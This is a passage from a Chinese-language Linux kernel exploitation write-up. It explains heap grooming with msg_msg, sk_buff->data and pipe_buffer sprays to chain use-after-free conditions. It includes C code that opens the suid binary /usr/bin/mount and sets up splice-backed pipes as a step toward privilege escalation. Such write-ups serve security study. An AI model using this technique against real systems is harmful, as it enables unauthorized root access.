 ![image-20220512232743116](image-20220512232743116.png)

![image-20220512235627866](image-20220512235627866.png)

此时，我们通过C所在的msg队列将C释放，B和C处于同一队列，因此B中的next指针会由于正常的unlink被改掉，但由于A的`m_list.next`是我们修改的，不会由于unlink修改，从而得到了一个0x400 chunk的UAF。

![image-20220512235925974](image-20220512235925974.png)

接着再堆喷`sk_buff->data`，希望有一个`sk_buff->data`能够占用msg C的chunk。

> 稍微提一下，这个`sk_buff->data`是用于socket中的UDP的，大小为0x180~0x1000，前面是用户可控数据，后面0x140是`struct skb_shared_info`，且分配的flag为`GFP_KERNEL_ACCOUNT`。

由于`sk_buff->data`结构体的特性，我们可以伪造一个合法的msg头部出来：

![image-20220513000504671](image-20220513000504671.png)

这下，我们在通过msg A所在队列将`sk_buff->data`所在chunk 释放，得到一个`sk_buff->data`的UAF。

![image-20220513000640216](image-20220513000640216.png)

接着再堆喷`struct pipe_buffer`，指望能有一个pipe buffer和skbuff data共用一个chunk。且同时操作pipe，打开目标suid文件，并做好splice操作：

![image-20220513001425838](image-20220513001425838.png)

```c
#define ATTACK_FILE "/usr/bin/mount"

// filled with pipe_buffer
logd("spray pipe_buffer to re-acquire the 0x400 slab freed by skbuff_data");
int attack_fd = open(ATTACK_FILE, O_RDONLY);
if (attack_fd < 0) {
    die("open %s: %m", ATTACK_FILE);
}
for (int i = 0; i < NUM_PIPES; i++) {
    if (pipe(pipes[i])) {
        die("alloc pipe failed");
    }

    write(pipes[i][1], buff, 0x100 + i);

    loff_t offset = 1;
    ssize_t nbytes = splice(attack_fd, &offset, pipes[i][1], NULL, 1, 0);
    if (nbytes < 0) {
        die("splice() failed");
    }
}
```

这样就能 free skbuff data，泄露整个pipe buffer结构体，并转化为pipe buffer的UAF。

![image-20220513001728302](image-20220513001728302.png)
